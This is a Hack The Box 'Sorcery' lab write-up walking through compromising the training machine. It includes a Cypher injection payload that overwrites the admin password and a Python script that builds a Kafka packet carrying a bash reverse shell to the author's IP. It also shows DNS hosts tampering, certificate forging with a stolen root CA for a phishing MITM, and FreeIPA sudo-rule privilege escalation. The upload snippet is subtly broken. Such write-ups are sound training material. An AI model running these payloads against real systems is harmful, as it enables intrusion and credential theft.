



# HTB Sorcery Writeup


This writeup covers the exploitation and privilege escalation process for the Sorcery machine on Hack The Box.

Skills used:
- Neo4j injection
- Kafka packet crafting
- DNS manipulation
- MITM phishing
- FreeIPA privilege escalation


-
## enumeration : 

register key i got from burpsuite when intercepting 

looking around the page there was nothing interesting there 

found git.sorcery.htb

if we get seller access, we are able to register products
### foothold : 





its using Argon2 as its hash...

```
"}) WITH result MATCH (u:User {username: 'admin'}) SET u.password = '$argon2id$v=19$m=32768,t=2,p=1$c29tZXNhbHQ$TwnvITHeonF5W7P/GQH0sLr+yntWG4LeIZkd7sNFxwE' RETURN result { .*, description: 'admin password updated' } //

Result: Admin password updated to P@ssw0rd123.

```

this payload should be entered here :

```
https://sorcery.htb/dashboard/store/88b6b6c5-a614-.........
```

and dont forget to URL encode it :3

login as admin with the password you've chose.

now to access DNS and DEBUG we need to login as admin with a passkey

i had a hard time creating the passkey so what i did is change from firefox to chromium

login with the password then > go to ur profile > F12 > go to application > and in the 3 dots press more tools and go to webauthn > then run enroll passkey > and the value should be saved > then logout and login via passkey

and there you have it.

looking at docker-compose we can see kafka : 9092, neo4j

so we can use debug pannel for a revshell but we have to send the revshell as `packet.hex`

```
import struct, zlib, binascii

topic = b"update"
value = b"bash -c 'sh -i >& /dev/tcp/10.10.14.69/9001 0>&1'"  # Replace 10.10.14.20 with YOUR IP

def msg(v):
    body = struct.pack(">BBi", 0, 0, -1) + struct.pack(">i", len(v)) + v
    crc = zlib.crc32(body) & 0xffffffff
    return struct.pack(">I", crc) + body

mset = struct.pack(">q", 0) + struct.pack(">i", len(msg(value))) + msg(value)
pdata = struct.pack(">i", 0) + struct.pack(">i", len(mset)) + mset
tdata = struct.pack(">h", len(topic)) + topic + struct.pack(">i", 1) + pdata
body = struct.pack(">h", 1) + struct.pack(">i", 10000) + struct.pack(">i", 1) + tdata
hdr = struct.pack(">hhih", 0, 0, 42, 3) + b"dbg"
pkt = struct.pack(">i", len(hdr)+len(body)) + hdr + body

print(binascii.hexlify(pkt).decode())

```

python3 yourscript.py > packet.hex

and setup a listener on 9001 and send that packet 

looking at blog on webpage we see that tom_summers is compromised so we can start phishing.
## Phishing Attack Exploitation Steps to get tom_summers

update the DNS settings to include the target domain.

```
cd /dns
echo "10.10.14.69 lol.sorcery.htb" >> /dns/hosts-users

This ensures the domain resolves correctly for further attacks.

```

establishei a reverse shell using dnsmasq and Chisel to gain control of the target.


Stopped dnsmasq to avoid conflicts;

```
pkill -9 dnsmasq
# Python to upload Chisel, because wget didnt work for me
import urllib.request
import os
urllib.request.urlopen("http://10.10.14.69/chisel").read()
os.write(os.urandom(1024), urllib.request.urlopen("http://10.10.14.69/chisel").read())
getent hosts ftp -- get ftp docker ip
getent hosts mail -- get mail docker ip
# In Docker: ./chisel client 10.10.14.69:port Rsocks
# On your machine: ./chisel server --port port --reverse --socks5

```

 This opens a backdoor.

```
nano /etc/proxychains4.conf
# Add at end: socks5 127.0.0.1 1080
proxychains -q curl https://DOCKERTFTPIP/pub/RootCA.key -o RootCA.key
proxychains -q curl https://DOCKERTFTPIP/pub/RootCA.crt -o RootCA.crt

```


Obtained certificates for MITM attacks.
We generated fake certificates to impersonate the target domain for an MITM attack.
Used OpenSSL to create a private key, CSR, and signed certificate with the stolen RootCA.

```
openssl genrsa -out whatever.sorcery.htb.key 2048

openssl req -new -key whatever.sorcery.htb.key -out whatever.sorcery.htb.csr -subj "/CN=whatever.sorcery.htb"

openssl rsa -in RootCA.key -out RootCA-unenc.key

# Passphrase: password

openssl x509 -req -in whatever.sorcery.htb.csr -CA RootCA.crt -CAkey RootCA-unenc.key -CAcreateserial -out whatever.sorcery.htb.crt -days 365

cat whatever.sorcery.htb.key whatever.sorcery.htb.crt > whatever.sorcery.htb.pem
mitmproxy --mode reverse:https://git.sorcery.htb --certs whatever.sorcery.htb.pem --save-stream-file trafficraw.k -p 443

```

Now send a phishing email to tom_summers@sorcery.htb to steal his credentials.

```
proxychains -q swaks --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server MAILDOCKERIP --port 1025 --data @phish.txt


*Phish Content*:

Subject: Hello Tom\nHi Tom,\n\nPlease check this link: http://whatever.sorcery.htb/user/login\n

```

Obtained Toms credentials, used to SSH in and get User.txt


## Root


 now use the file  Xvfb_screen0 to extract tom_summers_admin creds and ssh with it


ssh into tom_summers_admin.

i spent here 4 hours looking everywhere and i ended up using pspy64 and getting ash_winter password (unintended way)

so i ssh into ash_winter.

running sudo -l we see that ash_winter can run /usr/bin/systemctl restart sssd

trying everything didnt get me anywhere so i ran linpeas and found this : 

https://book.hacktricks.wiki/en/linux-hardening/freeipa-pentesting.html

so looking at this i remembered that the way i got ash's password from pspy64 was that
there was ipa command that runs every ~5mins and changes ash_winter's password

so playing around with ipa got me to find the groups

adding ash to admins, trust admins didnt work so i added him to sysadmins, using the ipa cli.

`someone told me that using cli is for geeks, u should instead use the uli, but i kept going and used the cli instead :3`

#### here are the commands for root.txt: 

```
ipa group-add-member sysadmins --users=ash_winter

# logout-> ssh back in

ipa sudorule-add-user allow_sudo --users=ash_winter

# logout -> ssh again

sudo /usr/bin/systemctl restart sssd

# exit one last time ssh back in

sudo -s

```

and cat /root/root.txt :*

please keep in mind that not becuz privesc was written in fewer lines it means that it was easier, lol
sure thing foothold was hard, but privesc was pain in the ass, the steps are ez u just have to know where to look. 
i learned alot of things doing this box, from now on this is my (fav box).
